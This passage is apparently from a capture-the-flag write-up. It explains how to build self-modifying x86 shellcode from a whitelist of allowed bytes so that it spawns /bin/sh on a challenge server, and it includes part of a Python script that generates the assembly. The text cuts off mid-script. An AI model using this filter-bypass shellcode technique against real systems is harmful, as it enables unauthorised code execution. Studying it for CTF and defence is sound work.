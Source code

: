 * set `eax` to a value farther along in the shellcode  
* set some other register to a byte of new shellcode and write it to `*eax`  
* increment `eax`  
* fill the remaining space (between all of this logic and the new shellcode) with innocuous instructions - there's no `0x90` for a NOP-sled, but something similar should work

Ok, step 1 - set `eax` to the end of the shellcode. We have an arbitrary `sub
eax, 0xDDCCBBAA` but need the `AA`, `BB`, `CC`, `DD` byte values to be from
our whitelisted set of bytes. Four values which work are `0x4b3e4040`,
`0x403d4040`, `0x3a3a4040`, and `0x3a3a4040` which sets `eax := eax +
0xfff00`. Perfect.

Step 2 - create shellcode in a designated register. Well, we know that `edi`
is zero, and we have a `pushad` and `pop ebx` avaiable so use all three in
concert to set `ebx` to zero. From there, we can call `dec ebx` to subtract
from `ebx` one at a time until we have a byte of shellcode. And finally, when
we have the right byte lined up in the low byte of `ebx` we can call `add
[eax+0x0],bl` to move that low byte into `eax`. Finally increment `eax` to
move into the next byte of shellcode.

Last step - get some sort of NOP-sled or meaningless instruction sled to our
shellcode. I chose `inc eax` followed by some `0x00` bytes where the target
shellcode would go (offset `0xfff00`).

Using some `execl(/bin/sh)` shellcode generated from `msfvenom` I constructed
shellcode, converted it to bytes with
[nasm](https://nasm.us/doc/nasmdoc2.html), and then sent it to the server
followed by some shell commands to dump the flag. The final python code for
all of this is given below:

```python  
#!/usr/bin/env python3

import sys  
import random  
import subprocess  
import socket  
import time

def random_shellcode():

	whitelist_bytes = b'\x00\x0a\x20\x27\x28\x29\x2a\x2d\x2f\x3a\x3c\x3d\x3e\x40\x4b\x4f\x56\x5b\x5c\x5d\x5e\x5f\x60\x6f\x7b\x7c\x7d\x7e'  
	whitelist_arr = list(whitelist_bytes)

	arr = [random.choice(whitelist_arr) for i in range(1000000)]

	with open('shellcode_random','wb') as f:  
		f.write(bytes(arr))  
		f.close()  
	subprocess.Popen(['ndisasm','-b','32','shellcode_random']).wait()

def real_shellcode():

	# allocated space is 0x100000

	# eax == shellcode, want eax + 0x100000-40ish  
	print('BITS 32')  
	print('sub eax,0x4b3e4040')  
	print('sub eax,0x403d4040')  
	print('sub eax,0x3a3a4040')  
	print('sub eax,0x3a3a4040')  
	# eax = eax + 0xfff00

	print('pushad')  
	print('pop ebx') # edi  
```